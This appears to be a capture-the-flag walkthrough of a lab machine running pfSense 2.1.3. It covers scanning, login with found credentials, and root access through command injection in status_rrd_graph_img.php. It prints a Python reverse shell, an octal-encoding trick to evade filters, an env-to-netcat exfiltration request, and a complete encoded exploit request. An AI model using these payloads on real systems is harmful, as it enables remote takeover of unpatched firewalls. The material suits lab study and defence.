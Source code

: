 # nmap
```
80
442
- http-server-header: lighttpd/1.4.35
```

# ffuf
```
$ ffuf -u 'http://10.10.10.60/FUZZ' -w /usr/share/wordlists/dirb/common.txt -r -o fuff.txt -e .php

                        [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 237ms]
edit.php                [Status: 200, Size: 6689, Words: 907, Lines: 174, Duration: 230ms]
exec.php                [Status: 200, Size: 6689, Words: 907, Lines: 174, Duration: 232ms]
favicon.ico             [Status: 200, Size: 1406, Words: 3, Lines: 7, Duration: 222ms]
graph.php               [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 241ms]
help.php                [Status: 200, Size: 6689, Words: 907, Lines: 174, Duration: 239ms]
index.html              [Status: 200, Size: 329, Words: 32, Lines: 25, Duration: 225ms]
index.php               [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 232ms]
index.php               [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 234ms]
installer               [Status: 200, Size: 6113, Words: 886, Lines: 174, Duration: 235ms]
license.php             [Status: 200, Size: 6692, Words: 907, Lines: 174, Duration: 232ms]
pkg.php                 [Status: 200, Size: 6688, Words: 907, Lines: 174, Duration: 232ms]
stats.php               [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 247ms]
status.php              [Status: 200, Size: 6691, Words: 907, Lines: 174, Duration: 230ms]
system.php              [Status: 200, Size: 6691, Words: 907, Lines: 174, Duration: 235ms]
tree                    [Status: 200, Size: 7492, Words: 828, Lines: 229, Duration: 232ms]
wizard.php              [Status: 200, Size: 6691, Words: 907, Lines: 174, Duration: 234ms]
xmlrpc.php              [Status: 200, Size: 384, Words: 78, Lines: 17, Duration: 235ms]
xmlrpc.php              [Status: 200, Size: 384, Words: 78, Lines: 17, Duration: 223ms]
```


# Post login findings 
using found credentials in `http://10.10.10.60/system-users.txt` file logged into /index.php
user is `rohit` and password was guessed to be `pfsense`
it's a pfsense environment

Status page reveals:
```
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014 
FreeBSD 8.3-RELEASE-p16
```

# Machine Root Access
PFsense 2.1.3 is vulnerable
https://www.exploit-db.com/exploits/43560
use exploit to obtain root access!
- another exploit found but not tested: [packetstormsecurity](https://packetstormsecurity.com/files/145575/pfSense-2.1.3-RELEASE-amd64-Remote-Command-Execution.html)

## Method 1
The exploit is a python script which exploits a vulnerability in `/status_rrd_graph_img.php file` file.
First, it creates a python shell codes:
```
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)
```
Then encodes it into octal format:
```
payload = ""
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))
```
exploit URL:
```
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;" + "printf+" + "'" + payload + "'|sh"
```


## Method 2
Use BurpSuite and capture a request to this php file:
```
GET /status_rrd_graph_img.php HTTP/1.1
```
modify it to test for command execution:
```
GET /status_rrd_graph_img.php?database=queues;env+|nc+10.10.14.18+7777 HTTP/1.1
```


#freebsd #badchar #bad_character #evasion #badchar_evasion
```
HOST='10.10.14.18'
PORT='7777'
payload=f"""
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
"""

def encode_payload(payload):
	enc_payload = ''.join([("\\" + oct(ord(c)).lstrip('0o')) for c in payload])
	print(enc_payload)

encode_payload(payload)

[OUTPUT]
\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\157\163\54\160\164\171\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\64\56\61\70\42\54\67\67\67\67\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\164\171\56\163\160\141\167\156\50\42\57\142\151\156\57\163\150\42\51\47
```

Final Request:
```
GET /status_rrd_graph_img.php?database=queues;printf+'\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\157\163\54\160\164\171\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\64\56\61\70\42\54\67\67\67\67\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\164\171\56\163\160\141\167\156\50\42\57\142\151\156\57\163\150\42\51\47'|sh HTTP/1.1
```